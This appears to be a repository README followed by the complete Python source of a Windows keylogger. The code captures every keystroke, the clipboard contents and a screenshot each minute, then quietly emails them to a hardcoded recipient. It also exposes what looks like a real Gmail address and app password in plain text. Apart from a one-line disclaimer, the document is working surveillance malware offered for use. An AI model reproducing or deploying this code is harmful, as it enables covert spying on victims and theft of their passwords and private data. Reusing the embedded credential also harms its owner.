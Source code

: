 # Keylogger
Keylogger for windows
A Windows keylogger built with Python that logs every keystroke and captures a screenshot every minute. 
The logs and screenshots are sent via email to a specified receiver using the sender's email and app password. 
For educational and authorized monitoring purposes only.

import os
import time
import smtplib
from pynput import keyboard
import logging
import win32clipboard
from datetime import datetime
from PIL import ImageGrab
from email.message import EmailMessage

# ===== CONFIGURATION =====
LOG_INTERVAL = 60  # in seconds
LOG_FILE = "keylog_file.txt"
SCREENSHOT_NAME = "screenshot.png"

EMAIL_ADDRESS = "ankit22paswan1@gmail.com"
EMAIL_PASSWORD = "peekrfnxkwbhkfdt"
SMTP_SERVER = "smtp.gmail.com"
SMTP_PORT = 587
RECIPIENT_EMAIL = "appleadvisor34@gmail.com"

# ===== LOGGING SETUP =====
logging.basicConfig(
    filename=LOG_FILE,
    level=logging.DEBUG,
    format="%(asctime)s - %(message)s"
)

# ===== KEYSTROKE LOGGING =====
def on_press(key):
    try:
        logging.info(f"{key.char}")
    except AttributeError:
        logging.info(f"{key}")

# ===== CLIPBOARD LOGGING =====
def log_clipboard():
    try:
        win32clipboard.OpenClipboard()
        clipboard_data = win32clipboard.GetClipboardData()
        win32clipboard.CloseClipboard()
        if clipboard_data.strip():
            logging.info(f"[Clipboard] {clipboard_data}")
    except:
        pass  # Avoid unnecessary errors

# ===== SCREENSHOT =====
def take_screenshot():
    try:
        screenshot_path = os.path.join(os.getcwd(), SCREENSHOT_NAME)
        ImageGrab.grab().save(screenshot_path)
        return screenshot_path
    except:
        return None

# ===== EMAIL SENDER =====
def send_email(log_path, screenshot_path):
    try:
        with open(log_path, "r") as f:
            logs = f.read()

        if not logs.strip():
            return  # No logs to send

        msg = EmailMessage()
        msg['Subject'] = 'Keylogger Report with Screenshot'
        msg['From'] = EMAIL_ADDRESS
        msg['To'] = RECIPIENT_EMAIL
        msg.set_content(logs)

        if screenshot_path and os.path.exists(screenshot_path):
            with open(screenshot_path, 'rb') as img:
                msg.add_attachment(img.read(), maintype='image', subtype='png', filename=SCREENSHOT_NAME)

        with smtplib.SMTP(SMTP_SERVER, SMTP_PORT) as server:
            server.starttls()
            server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
            server.send_message(msg)

    except Exception as e:
        pass  # Silently fail (or log to a file if needed)

# ===== MAIN LOOP =====
def start_monitoring():
    while True:
        log_clipboard()
        screenshot_path = take_screenshot()
        send_email(LOG_FILE, screenshot_path)

        with open(LOG_FILE, "w") as f:
            f.write("")

        time.sleep(LOG_INTERVAL)

def main():
    print("[*] Logger started. Press CTRL+C to stop.")

    listener = keyboard.Listener(on_press=on_press)
    listener.start()

    try:
        start_monitoring()
    except KeyboardInterrupt:
        listener.stop()

if __name__ == "__main__":
    main()
